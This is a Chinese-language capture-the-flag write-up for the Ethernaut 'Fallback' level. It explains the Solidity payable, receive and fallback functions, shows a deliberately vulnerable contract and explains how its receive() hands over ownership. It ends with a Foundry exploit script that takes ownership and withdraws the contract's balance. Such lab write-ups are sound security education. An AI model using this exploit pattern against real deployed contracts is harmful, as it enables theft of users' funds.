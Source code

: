 # Level 1 - Fallback
## 題目
[Fallback](https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB)

### 通關條件
獲得這個合約的所有權，把合約的餘額歸零。
### 提示
- 如何透過與 ABI 互動發送 ether
- 如何在 ABI 之外發送 ether
- 轉換 wei/ether 單位（參見 `help()` 指令）
- fallback 方法
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```
## 解題
先根據提示提到的問題去做了解
### 如何透過與 ABI 互動發送 ether？
當合約的 function 帶有 `payable` 時，就代表這支函式可以接受 ETH。當想透過 function 轉錢進去時，ETH 須使用 `{}` 存放參數。
假設想向 `exampleContract` 的 `deposit()` 存入 ETH 時，必須要這樣呼叫 function：
```solidity
exampleContract.deposit{value: 1 ether}();
```
帶有`payable`的 function 寫法可以參考：[Solidity by Example - Payable](https://solidity-by-example.org/payable/)
### 如何在 ABI 之外發送 ether
當你不打算透過合約裡的 function 發送 ETH，想直接將 ETH 發送至特定地址時，就需要透過這三個 function 進行轉帳
- transfer: 
    - 用途：安全且簡單，如果失敗會自動回滾交易（將所有狀態回復至這筆交易前的樣子），受限於 2300 gas
    - 範例：`接受地址.transfer(金額)`
- send: 
    - 用途：不會自動回滾交易，需要手動檢查是否成功，受限於 2300 gas
    - 範例：`接受地址.send(金額)`
- call: 
    - 用途：最靈活的選項，可以指定 gas 和其他參數，但需要手動處理失敗情況
    - 範例：`接受地址.call{value: 金額}("")`

對於發送 ETH 的方法和說明可以參考以下幾篇：
- [[中文] WTF Solidity极简入门: 20. 发送ETH](https://github.com/AmazingAng/WTF-Solidity/tree/main/20_SendETH)
- [[EN] Solidity — Part 4- Transfer, Send, and Call](https://shishirsingh66g.medium.com/solidity-part-4-transfer-send-reverse-5baf650acdc1)
- [[EN] Solidity by Example - Sending Ether (transfer, send, call)](https://solidity-by-example.org/sending-ether/)

### 轉換 wei/ether 單位
$1 \text{ ether} = 10^9 \text{ gwei} = 10^{18} \text{ wei}$
Solidity 有內建單位，可以對數字直接換算：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract EtherUnits {
    uint256 public oneWei = 1 wei;
    // 1 wei is equal to 1
    bool public isOneWei = (oneWei == 1);

    uint256 public oneGwei = 1 gwei;
    // 1 gwei is equal to 10^9 wei
    bool public isOneGwei = (oneGwei == 1e9);

    uint256 public oneEther = 1 ether;
    // 1 ether is equal to 10^18 wei
    bool public isOneEther = (oneEther == 1e18);
}
```
### fallback 方法
當有人呼叫合約中不存在的 function 的時候`fallback()`會被觸發，也可以用於收款。
直接向地址轉帳時，地址合約要有`fallback()`或是`receive()`才可以交易成功。

對於收款的流程和實作可以參考以下文章：
- [[中文] WTF Solidity极简入门: 19. 接收ETH receive和fallback](https://github.com/AmazingAng/WTF-Solidity/tree/main/19_Fallback)
- [[EN] Solidity — Part 2- Payable, Fallback, and Receive](https://shishirsingh66g.medium.com/solidity-part-2-payable-fallback-and-receive-42c00cb75108)

---

釐清提示後，這關的目標是成為合約的 owner 和將所有款項提出，開始閱讀關卡的合約。
要提款就是說要合約轉帳給你，所以要從合約中找到 `call{value:}(), transfer(), send()` 其中一個才有可能提款。在合約 30 行的 `withdraw()` 可以找到，這個函式會將合約中的所有資產轉給 owner
```solidity=30
    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }
```
但是呼叫 `withdraw()` 要先處理 `modifier onlyOwner()`
>[!Tip]
> modifier 是 Solidity 中特有的用法，簡單來說就是執行 A 函數前要先呼叫 B 函數的功能
> 詳細說明可以看 [WTF Solidity极简入门: 11. 构造函数和修饰器
](https://github.com/AmazingAng/WTF-Solidity/tree/main/11_Modifier)

`onlyOwner()` 會判斷你是不是 owner，所以還是要先成為 owner 才有辦法提款，尋找可以給 owner 賦值的地方：

22 行雖然可以讓我們變成 owner，但是首先要通過 19 行的每次只能傳入 0.001 ether，又要通過 21 行的總資產大於 owner（第 10 行可以看到 owner 有 1000 ether），太難實現，不考慮這個 function
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```
34 行的 `receive()` 也有更換 owner 的功能，而且只會判斷轉進去的 ether 大於 0 和發送者的資產大於 0 而已
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```
這樣我們就可以成功取代 owner，開始實作攻擊合約
1. 透過 18 行的 `contribute()` 先轉一點錢進去，讓 35 行的判斷會通過
2. 直接向合約轉帳，觸發 `receive()` ，得到 owner 資格
3. 呼叫 30 行的 `withdraw()` ，順利取得所有資產


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.26;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/01_Fallback.sol";

contract ExploitScript is Script {
    Fallback level1 = Fallback(payable(your_challenge_address));

    function run() public {
        vm.startBroadcast();
        
        level1.contribute{value:0.0001 ether}();
        address(level1).call{value:1 wei}("");
        level1.withdraw();
        
        vm.stopBroadcast();
    }
}
```